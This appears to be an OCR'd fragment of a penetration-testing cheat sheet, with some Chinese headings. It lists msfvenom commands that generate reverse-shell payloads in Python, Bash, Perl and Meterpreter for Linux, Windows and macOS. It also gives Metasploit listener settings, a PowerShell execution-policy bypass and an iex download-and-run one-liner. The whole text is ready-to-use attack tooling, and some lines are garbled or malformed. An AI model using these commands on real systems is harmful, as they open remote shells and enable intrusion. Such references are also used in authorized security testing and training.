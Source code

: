 ````bash

```bash
msfvenom -p cmd/unix/reverse_python LHOST= LPORT= -f raw > shell.py
```

Bash

```bash
msfvenom -p cmd/unix/reverse_bash LHOST= LPORT= -f raw > shell.sh
```

Perl

```bash
msfvenom -p cmd/unix/reverse_perl LHOST= LPORT= -f raw > shell.pl
```

### shellcode ###

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST= LPORT= -f

msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f

msfvenom -p osx/x86/shell_reverse_tcp LHOST= LPORT= -f
```

### Handlers ###
msf常用

```bash
exploit/multi/handler

set PAYLOAD

set LHOST

set LPORT

set ExitOnSession false

exploit -j -z
```
**Demo**

```bash
msfvenom exploit/multi/handler -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f > exploit.extension
```

## <center>Powershell</center> ##

执行旁路

```bash
Set-ExecutionPolicy Unrestricted
./file.ps1
```

```bash
Import-Module script.psm1
Invoke-FunctionThatIsIntheModule
```

```bash
iex(new-object system.net.webclient).downloadstring(“file:///C:\examplefile.ps1”)
````